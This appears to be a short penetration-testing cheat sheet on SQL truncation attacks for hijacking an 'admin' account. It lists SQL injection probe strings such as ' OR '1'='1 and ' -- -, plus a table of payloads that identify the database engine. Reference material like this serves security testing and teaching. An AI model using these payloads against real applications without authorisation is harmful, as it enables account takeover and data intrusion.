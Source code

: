 If the database considers spaces as valid characters between inputs and doesn’t do any trimming before storing the values, an attacker can create a duplicate accounts of an existing user like ‘’admin’’ with many additional spaces and characters — ‘’admin++++++random’’ that are too long to be stored in the specified column and gets deleted after passing the max length.

So, instead of storing “admin++++++random’’ as an entry, the database will truncate the second half to fit it in the column (‘’admin +++++’’).

Next time an attacker logs in to the application with the admin account, the database will search for all matching accounts and will consider them valid for logging in. Therefore any entry with username as admin with space or without is a valid entry that can be used to authenticate to the application.

“admin” == ‘admin +++++’




# Identifying SQLi
```sql
'
"
#
;
)
' '
'||'
'+'
' AND '1'='1
' OR '1'='1
' -- -
' OR '1'='1;-- -
[space]-- -
[space]AND 1=1
[space]AND 1=1 -- -
```

* * *


# Identifying Variants

| Order | Payload                        | DBMS       |
|-------|--------------------------------|------------|
| 1     | AND 'foo' 'bar' = 'foobar'	   | MySQL      |
| 2     | AND DATALENGTH('foo') = 3      | MSSQL      |
| 3     | AND TO_HEX(1) = '1'            | PostgreSQL |
| 4     | AND LENGTHB('foo') = '3'       | Oracle     |
| 5     | AND GLOB('foo*', 'foobar') = 1 | SQLite     |
